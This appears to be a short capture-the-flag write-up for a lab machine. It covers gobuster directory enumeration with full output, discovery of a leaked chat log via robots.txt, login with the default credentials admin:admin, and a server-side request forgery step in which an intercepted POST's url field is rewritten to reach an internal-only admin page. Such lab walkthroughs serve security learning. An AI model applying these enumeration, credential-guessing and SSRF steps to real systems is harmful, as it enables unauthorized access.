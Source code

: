 ```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,html -u http://10.10.130.34
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.130.34
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Extensions:              php,txt,js,html
[+] Timeout:                 10s
===============================================================
2022/11/01 10:10:07 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.js              (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htaccess.js         (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.js         (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.130.34/assets/]
/backup               (Status: 301) [Size: 313] [--> http://10.10.130.34/backup/]
/changelog.txt        (Status: 200) [Size: 816]
/index.php            (Status: 302) [Size: 0] [--> /login.php]
/index.php            (Status: 302) [Size: 0] [--> /login.php]
/internal             (Status: 301) [Size: 315] [--> http://10.10.130.34/internal/]
/login.php            (Status: 200) [Size: 4774]
/logout.php           (Status: 302) [Size: 0] [--> /login.php]
/Readme.txt           (Status: 200) [Size: 222]
/robots.txt           (Status: 200) [Size: 40]
/robots.txt           (Status: 200) [Size: 40]
/server-status        (Status: 403) [Size: 277]
/server-info.php      (Status: 200) [Size: 1689]
/vendor               (Status: 301) [Size: 313] [--> http://10.10.130.34/vendor/]
```

On /robots.txt I found...
```
User-Agent: *
Disallow: /backup/chat.txt
```

On /backup/chat.txt I found...
```
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```


I was then able to login using `admin:admin` on the index.html page.
On the admin panel I saw a message in a feed on the right-hand side of the screen `Internal pages hosted at /internal/admin.php. It contains the system flag.`

I then tried to nagivate to that page but got a message that it could only be accessed locally.


I opened a burp suite proxy browser so I could intercept the POST request in flight and edit
the `url` field from `http://127.0.0.1/server-info.php` to `http://127.0.0.1/internal/admin.php`. Then I forwarded the
request and got the flag!
